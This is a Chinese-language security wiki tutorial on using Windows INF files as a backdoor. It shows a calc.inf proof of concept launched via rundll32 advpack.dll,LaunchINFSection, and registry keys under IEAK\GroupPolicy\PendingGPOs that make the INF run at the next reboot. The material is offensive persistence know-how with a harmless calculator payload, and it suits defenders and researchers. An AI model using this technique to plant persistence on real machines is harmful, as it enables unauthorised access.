 ## 利用inf文件实现后门

`inf`文件

```
INF文件或安装信息文件是Microsoft Windows用于安装软件和驱动程序的纯文本文件。INF文件最常用于安装硬件组件的设备驱动程序。Windows包含用于创建基于INF的安装的IExpress工具。INF文件是Windows安装程序API及其后续版本Windows Installer的一部分。
PS：来自WIKI
inf`文件的结构
想了解更多可以看一下微软的手册：`https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc939869(v=technet.10)#information-inf-file-entries
1. DefaultInstall节（来自WIKI）
INF文件的结构与INI文件的结构非常类似; 它包含用于指定要复制的文件，对注册表的更改等的各个部分。所有INF文件都包含一个[Version]带有Signature 键值对的部分，用于指定INF文件所针对的Windows版本。签名通常是$CHICAGO$（对于Windows 9x）或$WINDOWS NT$（对于Windows NT / 2K / XP）。其余大多数部分是用户定义的，并且包含特定于要安装的组件的信息。

2. DefaultInstall节（来自微软的手册）
    RunPreSetupCommands-本节中指定的命令在安装服务配置文件之前运行。
    RunPostSetupCommands-本节中指定的命令在安装程序完成服务配置文件后运行。
    RunPreUnInstCommands-本节中指定的命令在卸载程序开始之前运行。
    RunPostUnInstCommands-本节中指定的命令在卸载程序运行后运行。

```

下面举一个`calc.inf`弹计算器的例子

```bash
[Version]
Signature="$CHICAGO$"
AdvancedINF=2.5,"test"
[DefaultInstall]
RunPreSetupCommands=Command1
[Command1]
C:\windows\system32\calc.exe

```

命令行下执行：

```bash
rundll32.exe advpack.dll,LaunchINFSection calc.inf,DefaultInstall

```

效果如下：

![f46fbc15b0cb4865a89b2e6cfdc35e35](images/security_wiki/f46fbc15b0cb4865a89b2e6cfdc35e35.gif)


后门实现：

在注册表`HKEY_CURRENT_USER\Software\Microsoft\`处依次新建子项`\IEAK\GroupPolicy\PendingGPOs`，然后再新建几个键，如下：

1. 键：`Count`，类型：`REG_DWORD`，键值：`1`
2. 键：`Path1`，类型：`REG_SZ`，键值：`C:\Users\Administrator\Desktop\test\calc.inf` //这个为我们inf文件的路径，这里以上面那个inf文件例子为例
3. 键：`Section1`，类型：`REG_SZ`，键值：`DefaultInstall`

如下图所示：

![](images/security_wiki/15906337270742.png)


重启电脑之后成功弹出计算器

![e67335efcde5454cb588b03f23764646](images/security_wiki/e67335efcde5454cb588b03f23764646.gif)


但是重启之后`PendingGPOs`该项就会被清除，需要我们重新修改注册表

![](images/security_wiki/15906337483013.png)


